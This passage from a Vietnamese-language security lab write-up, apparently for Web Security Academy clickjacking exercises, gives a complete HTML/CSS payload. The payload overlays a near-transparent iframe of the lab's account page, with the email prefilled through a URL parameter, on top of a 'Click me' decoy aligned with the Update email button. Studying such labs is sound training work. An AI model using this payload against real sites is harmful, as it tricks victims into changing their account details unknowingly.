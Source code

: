 Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab

![Untitled](writeup_media/Untitled%2020.png)

---

### **Clickjacking with form input data prefilled from a URL parameter**

Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

Chỉnh thuộc tính `top` và `left` của thẻ div để nó trùng với nút Update email

```jsx
<style>
    iframe {
        position:relative;
        width:700px ;
        height: 500px;
        opacity: 0.1;
        z-index: 1;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae4007304c44b4fc0db48e000eb007e.web-security-academy.net/my-account?email=a@a.a"></iframe>
```
